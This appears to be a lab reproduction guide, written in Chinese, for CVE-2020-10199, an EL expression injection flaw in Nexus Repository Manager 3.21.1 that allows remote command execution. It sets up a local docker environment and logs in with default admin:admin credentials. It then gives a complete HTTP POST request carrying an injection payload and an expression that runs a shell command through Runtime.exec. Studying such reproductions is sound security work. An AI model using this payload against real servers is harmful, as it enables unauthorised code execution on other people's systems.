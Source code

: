# Nexus Repository Manager 3 远程命令执行漏洞（CVE-2020-10199）

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。其3.21.1及之前版本中，存在一处任意EL表达式注入漏洞。

参考链接：

- https://support.sonatype.com/hc/en-us/articles/360044882533-CVE-2020-10199-Nexus-Repository-Manager-3-Remote-Code-Execution-2020-03-31
- https://github.com/threedr3am/learnjavabug/blob/93d57c4283/nexus/CVE-2020-10199/README.md
- https://github.com/jas502n/CVE-2020-10199

## 漏洞环境

执行如下命令启动Nexus Repository Manager 3.21.1：

```
docker compose up -d
```

等待一段时间环境才能成功启动，访问`http://your-ip:8081`即可看到Web页面。

该漏洞需要至少普通用户身份，所以我们需要使用账号密码`admin:admin`登录后台。

## 漏洞复现

登录后，复制当前Cookie和CSRF Token，发送如下数据包，即可执行EL表达式：

```
POST /service/rest/beta/repositories/go/group HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 203
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.7886248393834028
Content-Type: application/json
Accept: */*
Origin: http://127.0.0.1:8081
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://127.0.0.1:8081/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: NX-ANTI-CSRF-TOKEN=0.7886248393834028; NXSESSIONID=cedf848f-d881-4b58-ac24-9e9c3ece40bc
Connection: close

{
  "name": "internal",
  "online": true,
  "storage": {
    "blobStoreName": "default",
    "strictContentTypeValidation": true
  },
  "group": {
    "memberNames": ["$\\A{233*233*233}"]
  }
}
```

![](1.png)

参考<https://github.com/jas502n/CVE-2020-10199>，使用表达式`$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/success')}`即可成功执行任意命令。
